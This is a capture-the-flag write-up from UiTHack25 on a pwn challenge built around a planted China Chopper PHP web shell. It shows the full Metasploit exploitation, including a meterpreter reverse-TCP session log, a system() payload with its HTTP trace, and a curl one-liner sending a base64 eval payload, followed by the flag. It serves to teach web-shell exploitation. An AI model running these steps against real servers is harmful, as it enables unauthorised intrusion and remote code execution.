

# The little cyborg that could

>> Pwn - hard
> Some punks have been messing with the Citizen tracking servers.
> They keep getting in and messing with the data.
>
> Find how out how they keep getting in, if not you are fired!
>
> URL: <https://uithack-2.td.org.uit.no:9003/index.html>

## Challenge Description

The challenge is based upon the very famous China Chopper web shell, discussed in the mandiant report [1].
The challenge is designed to test the participants' ability to identify and apply a web shell exploit.  
To help the participants, the challenge provides a testing shell which returns the input data back to the user.  

Trying to lock down the server with a vurnerability as dangerous as the China Chopper is no small feat.
Because of the shear number of ways this web shell can be exploited, we do expect to get pwned.

### Author solution

When visiting the website, we are greeted with the pwn notice from Nexus Anarchists. Here a vital clue is given that the server has already been compromised, and we are given a password `NEXUSANARCHY2337`.  
Next step is to find where the password can be used.

In the source code of the website, we find a comment with a link with the text `Admin`.

```html
<!-- <li><a href="/html/hello.html">Admin</a></li> -->
```

Visiting the link, we are with a page with several links to different files.

```html
Hello world!
<br>

Dave's bookmarks:<br>

<a href="/admin/flag.txt">flag</a><br>
<a href="/gui_shell.php">mgmt</a><br>
<a href="/admin/info.php">info</a><br>
<a href="/admin/">admin console</a><br>
```

Unfortunately, the `flag.txt` file is not accessible, as well as the mgmt interface!?.  
From the `info.php` file, we can see that the server is running `Apache2 with php (Debian)`.  
However, the `admin console` link is interesting. Where we find this file listing



There are several system info files and some `.conf` files. However, the `323d09c08a72717bbec71f172e5f6532.php` file is interesting, seems like a filehash. Googling the filename shows no results, however duckduckgo shows shows several results, albeit none of the results are relevant. Testing the hash on virustotal shows that the file is a known PHP web shell [2].

Reading up on the China Chopper web shell, we learn several ways to exploit the web shell [1][3][4]. However, the `@eval` exploit chain is somewhat complex and requires a fair bit of testing to get working because of all the encoding. We do not really want to create our own client, and using the original `caidao` client is not recommended. We therefore opt to use the Metasploit module [`exploit/multi/http/caidao_php_backdoor_exec`](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/caidao_php_backdoor_exec.md), using the password provided earlier [5]

### Reverse shell exploit

This method will only work if you have a public IP address or port forwarding set up on your router
to forward the port to your machine, since the reverse shell will be blocked by the firewall.

```sh
msf6 > use exploit/multi/http/caidao_php_backdoor_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set rport 8080
rport => 8080
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set PASSWORD NEXUSANARCHY2337
PASSWORD => NEXUSANARCHY2337
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set TARGETURI /admin/323d09c08a72717bbec71f172e5f6532.php
TARGETURI => /admin/323d09c08a72717bbec71f172e5f6532.php
msf6 exploit(multi/http/caidao_php_backdoor_exec) > check
[+] 127.0.0.1:8080 - The target is vulnerable.
msf6 exploit(multi/http/caidao_php_backdoor_exec) > exploit
[*] Started reverse TCP handler on 10.33.1.32:4444 
[*] Sending exploit...
[*] Sending stage (40004 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (10.33.1.32:4444 -> 172.17.0.2:58984) at 2025-02-24 22:25:26 +0100

meterpreter > ls
Listing: /var/www/admin
=======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
101755/rwxr-xr-x  217   fil   2013-06-06 14:01:00 +0200  323d09c08a72717bbec71f172e5f6532.php
101755/rwxr-xr-x  78    fil   2025-02-24 19:45:05 +0100  README.md
101755/rwxr-xr-x  7178  fil   2025-02-24 22:16:46 +0100  apache2.conf
101755/rwxr-xr-x  335   fil   2025-02-24 22:16:46 +0100  docker-php.conf
101755/rwxr-xr-x  54    fil   2025-02-24 19:45:05 +0100  flag.txt
101755/rwxr-xr-x  19    fil   2025-02-24 19:45:05 +0100  info.php
101755/rwxr-xr-x  267   fil   2025-02-24 22:16:46 +0100  os-release
101755/rwxr-xr-x  254   fil   2025-02-24 21:47:49 +0100  test.php
101755/rwxr-xr-x  1074  fil   2025-02-24 22:13:30 +0100  uithack.conf

meterpreter > cat flag.txt
UiTHack25{02_quota_revoked_please_submit_for_disposal}
```

### RCE exploit

This method will work without any port forwarding, since the code will be executed on the server returning the output to the attacker.

Check the available payloads with the `show payloads` command using the `caidao_php_backdoor_exec` module.

```txt
msf6 exploit(multi/http/caidao_php_backdoor_exec) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_aws_instance_connect  .                normal  No     Unix SSH Shell, Bind Instance Connect (via AWS API)
   1   payload/generic/custom                      .                normal  No     Custom Payload
   2   payload/generic/shell_bind_aws_ssm          .                normal  No     Command Shell, Bind SSM (via AWS API)
   3   payload/generic/shell_bind_tcp              .                normal  No     Generic Command Shell, Bind TCP Inline
   4   payload/generic/shell_reverse_tcp           .                normal  No     Generic Command Shell, Reverse TCP Inline
   5   payload/generic/ssh/interact                .                normal  No     Interact with Established SSH Connection
   6   payload/multi/meterpreter/reverse_http      .                normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTP Stager (Multiple Architectures)
   7   payload/multi/meterpreter/reverse_https     .                normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTPS Stager (Multiple Architectures)
   8   payload/php/bind_perl                       .                normal  No     PHP Command Shell, Bind TCP (via Perl)
   9   payload/php/bind_perl_ipv6                  .                normal  No     PHP Command Shell, Bind TCP (via perl) IPv6
   10  payload/php/bind_php                        .                normal  No     PHP Command Shell, Bind TCP (via PHP)
   11  payload/php/bind_php_ipv6                   .                normal  No     PHP Command Shell, Bind TCP (via php) IPv6
   12  payload/php/download_exec                   .                normal  No     PHP Executable Download and Execute
   13  payload/php/exec                            .                normal  No     PHP Execute Command
   14  payload/php/meterpreter/bind_tcp            .                normal  No     PHP Meterpreter, Bind TCP Stager
   15  payload/php/meterpreter/bind_tcp_ipv6       .                normal  No     PHP Meterpreter, Bind TCP Stager IPv6
   16  payload/php/meterpreter/bind_tcp_ipv6_uuid  .                normal  No     PHP Meterpreter, Bind TCP Stager IPv6 with UUID Support
   17  payload/php/meterpreter/bind_tcp_uuid       .                normal  No     PHP Meterpreter, Bind TCP Stager with UUID Support
   18  payload/php/meterpreter/reverse_tcp         .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager
   19  payload/php/meterpreter/reverse_tcp_uuid    .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager
   20  payload/php/meterpreter_reverse_tcp         .                normal  No     PHP Meterpreter, Reverse TCP Inline
   21  payload/php/reverse_perl                    .                normal  No     PHP Command, Double Reverse TCP Connection (via Perl)
   22  payload/php/reverse_php                     .                normal  No     PHP Command Shell, Reverse TCP (via PHP)
```

Most of the payloads are meterpreter payloads, which are not very useful in this case.
We will use the `payload/php/exec` payload to execute a command on the server.

To get the output of the returned `POST` request, we first have to enable *HttpTrace*, and then set the payload and the command to execute.

```sh
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set HttpTrace true
HttpTrace => true
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set SSL true
SSL => true
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set PAYLOAD payload/php/exec
PAYLOAD => php/exec
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set PAYLOADSTR "system('cat flag.txt');"
PAYLOADSTR => system('cat flag.txt');
```

The settings should be shown as below.

```sh
msf6 exploit(multi/http/caidao_php_backdoor_exec) > show options

Module options (exploit/multi/http/caidao_php_backdoor_exec):

   Name       Current Setting                           Required  Description
   ----       ---------------                           --------  -----------
   PASSWORD   NEXUSANARCHY2337                          yes       The password of backdoor
   Proxies                                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     uithack-2.td.org.uit.no                   yes       The target host(s), see <https://docs.metasploit.com/docs/using-metasploit/>
                                                                  basics/using-metasploit.html
   RPORT      9003                                      yes       The target port (TCP)
   SSL        true                                      no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /admin/323d09c08a72717bbec71f172e5f6532.  yes       The path of backdoor
              php
   VHOST                                                no        HTTP server virtual host

Payload options (generic/custom):

   Name         Current Setting          Required  Description
   ----         ---------------          --------  -----------
   PAYLOADFILE                           no        The file to read the payload from
   PAYLOADSTR   system('cat flag.txt');  no        The string to use as a payload

```

Then dispatch the exploit.

```sh
msf6 exploit(multi/http/caidao_php_backdoor_exec) > exploit
[*] Sending exploit...
####################
# Request:
####################
POST /admin/323d09c08a72717bbec71f172e5f6532.php HTTP/1.1
Host: uithack-2.td.org.uit.no:9003
User-Agent: Mozilla/5.0 (iPad; CPU OS 17_7_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Mobile/15E148 Safari/604.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

NEXUSANARCHY2337=eval%28base64_decode%28%22c3lzdGVtKCdjYXQgZmxhZy50eHQnKTs%3d%22%29%29%3b
####################
# Response:
####################
HTTP/1.1 200 OK
Alt-Svc: h3=":9003"; ma=2592000
Content-Type: text/html; charset=UTF-8
Date: Tue, 25 Feb 2025 17:21:40 GMT
Strict-Transport-Security: max-age=63072000; includeSubDomains
Vary: Accept-Encoding
X-Powered-By: PHP/8.4.4
Transfer-Encoding: chunked

<!-- THIS IS AN EXPLOTABLE WEB SHELL, NEVER EXPOSE TO THE INTERNET
    Ask Dave for instructions
    Nexus Anarchists was here, fuck Dave -->
UiTHack25{02_quota_revoked_please_submit_for_disposal}

[*] Exploit completed, but no session was created.
```

### Manual encoding

```sh
curl -X POST -H application/x-www-form-urlencoded -d "NEXUSANARCHY2337=eval%28base64_decode%28%22c3lzdGVtKCdjYXQgZmxhZy50eHQnKTs%3d%22%29%29%3b" https://uithack-2.td.org.uit.no:9003/admin/323d09c08a72717bbec71f172e5f6532.php
<!-- THIS IS AN EXPLOTABLE WEB SHELL, NEVER EXPOSE TO THE INTERNET
    Ask Dave for instructions
    Nexus Anarchists was here, fuck Dave -->
UiTHack25{02_quota_revoked_please_submit_for_disposal}
```

### References

[1] <https://www.mandiant.com/sites/default/files/2021-09/rpt-china-chopper.pdf>\
[2] <https://www.virustotal.com/gui/file/c4bfc3d39c1d01fa01b2100f1e1c8a58e74a2164fe6fae3c320d23ca3682e058/detection>\
[3] <https://informationonsecurity.blogspot.com/2012/11/china-chopper-webshell.html>\
[4] <https://www.exploit-db.com/docs/27654>\
[5] <https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/caidao_php_backdoor_exec.md>
